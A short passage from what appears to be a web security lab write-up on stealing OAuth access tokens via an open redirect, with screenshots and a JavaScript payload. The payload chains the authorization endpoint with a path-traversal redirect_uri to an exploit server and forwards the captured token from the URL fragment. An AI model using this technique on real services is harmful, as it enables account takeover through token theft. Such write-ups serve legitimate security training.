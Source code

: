 ![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/14.png)


Now the access token is logged:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/15.png)



Now we will prepare the “/exploit” path so it redirects to “/auth” first and to the exploit server second:

```
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0a6500a0036c389681a332430272000a.oauth-server.net/auth?client_id=oy2ed6shddhvjw8klmsnu&redirect_uri=https://0a5100fc036a387b81e8347900740079.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ac500c0030538a5812f33c001d60054.exploit-server.net/exploit/&response_type=token&nonce=-1318932807&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```


We get an access token from the victim:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/16.png)
